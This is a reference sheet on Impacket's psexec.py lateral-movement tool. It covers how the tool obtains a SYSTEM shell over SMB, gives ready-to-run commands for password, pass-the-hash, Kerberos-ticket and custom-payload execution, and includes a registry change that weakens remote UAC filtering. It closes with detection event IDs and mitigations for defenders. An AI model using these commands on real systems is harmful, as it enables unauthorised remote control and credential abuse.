




## TL;DR

`psexec.py` is an Impacket implementation of the classic Sysinternals PsExec technique. It connects to a target Windows machine via SMB, uploads a service binary to the `ADMIN$` share, creates and starts a Windows service, then communicates through a named pipe — delivering an interactive shell running as **NT AUTHORITY\\SYSTEM**.

---

## What psexec.py Does

| Capability | Details |
|---|---|
| Remote SYSTEM shell | Spawns a shell on the target running as SYSTEM |
| Password authentication | Standard username + password |
| Pass-the-Hash (PTH) | Authenticate with NTLM hash — no plaintext password needed |
| Pass-the-Ticket (PTK) | Authenticate with a Kerberos TGT |
| Execute custom commands | `-c` to upload and run a custom binary |
| Interactive shell | Default behaviour — interactive `cmd.exe` prompt |
| Self-cleanup | Removes the uploaded service binary and service on exit |

---

## What psexec.py Cannot Do

| Limitation | Why |
|---|---|
| Work without admin privileges | Requires write access to `ADMIN$` and rights to create/start services via SCM |
| Work if SMB (port 445) is blocked | Entirely SMB-dependent — no fallback protocol |
| Work if `ADMIN$` share is disabled | The binary is uploaded to `ADMIN$` (maps to `C:\Windows`) |
| Evade modern AV / EDR easily | Drops a service binary to disk — commonly flagged by Windows Defender and EDR solutions |
| Run as a specific non-SYSTEM user | The launched service always runs as SYSTEM |
| Provide a persistent backdoor | The service and binary are removed when the session closes |
| Work against LocalSystem accounts when restricted | If `LocalAccountTokenFilterPolicy` is not set, local admin accounts may get a filtered token over the network |

---

## Internal Mechanism



---

## Authentication Flows

### Password authentication



### Pass-the-Hash (PTH)



> Pass-the-Hash works because NTLM authentication uses the hash directly to sign the challenge response. Knowing the plaintext is not required.

---

## Full Attack Flow



---

## When to Use It

### Standard password authentication

```bash
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>

# Example
psexec.py corp.local/administrator:Password1@10.10.10.50
```

### Local account (no domain)

```bash
psexec.py ./<LOCAL_ADMIN>:<PASSWORD>@<TARGET_IP>

# Example
psexec.py ./administrator:Password1@10.10.10.50
```

### Pass-the-Hash

```bash
# LM hash is usually empty (aad3b435b51404eeaad3b435b51404ee)
psexec.py <DOMAIN>/<USER>@<TARGET_IP> -hashes <LM_HASH>:<NT_HASH>

# Example with empty LM hash
psexec.py corp.local/administrator@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

### Pass-the-Ticket (Kerberos)

```bash
# Set the ticket in KRB5CCNAME env var first
export KRB5CCNAME=/tmp/administrator.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
```

### Execute a custom binary on the target

```bash
# Upload and execute a custom payload
psexec.py corp.local/administrator:Password1@10.10.10.50 -c /local/path/to/payload.exe
```

### Run a specific command (non-interactive)

```bash
psexec.py corp.local/administrator:Password1@10.10.10.50 cmd.exe /c whoami
```

---

## Common Options

| Flag | Description |
|---|---|
| `-hashes <LM:NT>` | Pass-the-Hash authentication |
| `-k` | Use Kerberos authentication |
| `-no-pass` | Skip password prompt (use with `-k`) |
| `-c <file>` | Upload and execute a custom binary |
| `-path <path>` | Path on target to copy the binary to (default: `ADMIN$`) |
| `-service-name <name>` | Custom service name (default: random) |
| `-port <port>` | Target port (default: 445) |
| `-dc-ip <ip>` | Domain controller IP (for Kerberos) |

---

## psexec.py vs Similar Impacket Tools

| Tool | Transport | Auth required | Shell user | AV exposure |
|---|---|---|---|---|
| `psexec.py` | SMB + SCM | Local/domain admin | SYSTEM | High (drops binary to disk) |
| `smbexec.py` | SMB + SCM | Local/domain admin | SYSTEM | Lower (no binary dropped) |
| `wmiexec.py` | WMI (DCOM) | Local/domain admin | Executing user | Lower (no service created) |
| `atexec.py` | SMB + Task Scheduler | Admin | SYSTEM | Moderate |
| `dcomexec.py` | DCOM | Admin | Executing user | Lower |

**When to prefer alternatives:**
- AV/EDR present → `wmiexec.py` or `smbexec.py` (no binary dropped to disk)
- Firewall blocks SMB → `wmiexec.py` (uses DCOM/RPC port 135 + dynamic ports)
- Need to run as a specific user → `wmiexec.py` (runs as the authenticated user, not SYSTEM)

---

## `LocalAccountTokenFilterPolicy` Caveat

When using local administrator accounts (not domain accounts), Windows applies **UAC token filtering** over the network by default. The session gets a filtered (non-elevated) token, causing access denied errors even with correct credentials.

```powershell
# Fix on the target — enable full token for local admins over network
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

This is not required for **domain** Administrator or domain admin accounts, which always get a full token.

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Source | What to look for |
|---|---|---|
| 7045 | System | New service installed — random service name, binary in `C:\Windows\` |
| 7036 | System | Service state change (started → stopped in short succession) |
| 4624 | Security | Network logon (Type 3) from unexpected source IP |
| 4648 | Security | Explicit credential logon |
| 5140 | Security | `ADMIN$` share accessed |

A service appearing and disappearing within seconds, combined with `ADMIN$` access from an external IP, is a strong psexec signal.

### Mitigations

```powershell
# Disable ADMIN$ share (breaks psexec.py but also breaks legitimate admin tools)
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v AutoShareWks /t REG_DWORD /d 0 /f

# Restrict who can connect to ADMIN$ via Windows Firewall rules
# Block inbound SMB from non-management hosts

# Enable Windows Defender Credential Guard to protect NTLM hashes
```

- Enforce **Credential Guard** to prevent NTLM hash extraction from LSASS
- Use **LAPS** (Local Administrator Password Solution) to ensure unique local admin passwords per machine — limits PTH lateral movement
- Restrict SMB access via host-based firewall rules (allow only from jump hosts / management networks)
- Monitor for **service creation events (7045)** with short-lived services and randomised names
- Deploy **Microsoft Defender for Endpoint** — it detects psexec patterns out of the box

---

## References

- [Impacket — psexec.py source](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- [Microsoft — PsExec documentation](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
- [MITRE ATT&CK — T1021.002 SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)
